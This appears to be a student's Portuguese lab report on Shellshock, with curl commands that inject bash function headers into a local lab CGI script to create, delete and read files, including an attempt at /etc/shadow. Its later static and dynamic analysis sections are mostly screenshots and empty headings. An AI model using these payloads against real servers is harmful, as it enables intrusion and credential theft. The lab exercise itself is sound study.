# Module 2

-------


# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_a_1.png "Código com espaços")

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_b_1.png "Código com espaços")

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

![alt text](parte1_ex2_c_1.png "Código com espaços")

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

![alt text](parte1_ex2_c_2.png "Código com espaços")

Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

![alt text](parte1_ex2_c_3.png "Código com espaços")

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.



### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

![alt text](parte1_ex2_d_1.png "Código com espaços")

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.
![alt text](parte1_ex2_d_2.png "Código com espaços")

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.



# Parte B

## Static analysis

### Ponto 2

#### a)
Nas imagens abaixo, é possivel verificar as alterações da versão 1 para a versão 2:

![alt text](parte2_ex_2_a_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_a_2.jpeg "Código com espaços")


#### b)
Nas imagens abaixo, é possivel verificar a adição do código do workflow trigger.

![alt text](parte2_ex_2_b_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_b_2.jpeg "Código com espaços")


### Ponto 3

Após analisar os logs de ou

![alt text](parte2_ex3.png "Código com espaços")


### Ponto 4

![alt text](parte2_ex4_1.jpeg "Código com espaços")


![alt text](parte2_ex4_2.jpeg "Código com espaços")


![alt text](parte2_ex4_3.jpeg "Código com espaços")


### Ponto 5


## Dynamic analysis

### Ponto 6
![alt text](parte2_ex6.png "Código com espaços")


### Ponto 7
![alt text](parte2_ex7.png "Código com espaços")




### Ponto 8
![alt text](parte2_ex8_1.png "Código com espaços")

![alt text](parte2_ex8_2.png "Código com espaços")


### Ponto 9
#### a)

#### b)


### Ponto 10


### Ponto 11


### Ponto 12


### Ponto 13


### Ponto 14

